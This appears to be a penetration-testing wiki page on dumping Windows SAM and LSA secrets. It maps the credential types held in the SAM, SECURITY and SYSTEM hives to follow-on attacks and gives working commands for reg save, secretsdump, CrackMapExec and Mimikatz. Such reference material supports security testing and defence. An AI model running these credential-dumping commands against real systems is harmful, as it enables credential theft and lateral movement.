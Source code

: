 ```yaml
---
description: 'MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005'
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM \(Security Account Manager\) and SECURITY.

<table>
  <thead>
    <tr>
      <th style="text-align:left">Hive</th>
      <th style="text-align:left">Details</th>
      <th style="text-align:left">Format or credential material</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SAM</td>
      <td style="text-align:left">stores locally cached credentials (referred to as SAM secrets)</td>
      <td
      style="text-align:left">LM or NT hashes</td>
    </tr>
    <tr>
      <td style="text-align:left">SECURITY</td>
      <td style="text-align:left">stores domain cached credentials (referred to as LSA secrets)</td>
      <td
      style="text-align:left">
        <p>Plaintext passwords</p>
        <p>LM or NT hashes</p>
        <p>Kerberos keys (DES, AES)</p>
        <p>Domain Cached Credentials (DCC1 and DCC2)</p>
        </td>
    </tr>
    <tr>
      <td style="text-align:left">SYSTEM</td>
      <td style="text-align:left">contains enough info to decrypt SAM secrets and LSA secrets</td>
      <td style="text-align:left">N/A</td>
    </tr>
  </tbody>
</table>

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material | Subsequent attacks |
| :--- | :--- |
| Plaintext passwords | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md) or [silver tickets](../../kerberos/forged-tickets.md) |
| LM and NT hashes | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../lm-and-ntlm/pass-the-hash.md) |
| Kerberos keys \(RC4, i.e. == NT hash\) | [credential cracking](../cracking.md), [overpass-the-hash](../../kerberos/pass-the-key.md) or [silver tickets](../../kerberos/forged-tickets.md) |
| Kerberos keys \(DES, AES\) | [credential cracking](../cracking.md), [pass-the-key](../../kerberos/pass-the-key.md) or [silver tickets](../../kerberos/forged-tickets.md) |
| Domain Cached Credentials \(DCC1 or DCC2\) | [credential cracking](../cracking.md) |

## Practice

### Exfiltration

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM 'C:\Windows\Temp\sam.save'
reg save HKLM\SECURITY 'C:\Windows\Temp\security.save'
reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'
```

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS \(e.g. when booting the computer on another operating system\). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```

{% hint style="info" %}
Hives files can also be exfiltrated from live systems using [Volume Shadow Copy](ntds.dit.md#volume-shadow-copy-vssadmin).
{% endhint %}

### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

{% tabs %}
{% tab title="secretsdump" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) \(Python\) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../lm-and-ntlm/pass-the-hash.md) \(LM/NTLM\), or [pass-the-ticket](../../kerberos/pass-the-ticket.md) \(Kerberos\).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
{% endtab %}

{% tab title="CrackMapExec" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../lm-and-ntlm/pass-the-hash.md) \(NTLM\), or [pass-the-ticket](../../kerberos/pass-the-ticket.md) \(Kerberos\)

```bash
# Remote dumping of SAM/LSA secrets
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
crackmapexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
crackmapexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from `SAM` and `SECURITY` registry hives \(and `SYSTEM` for the encryption keys\), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}
{% endtabs %}

## References

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" caption="" %}

{% embed url="http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html" caption="" %}

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}

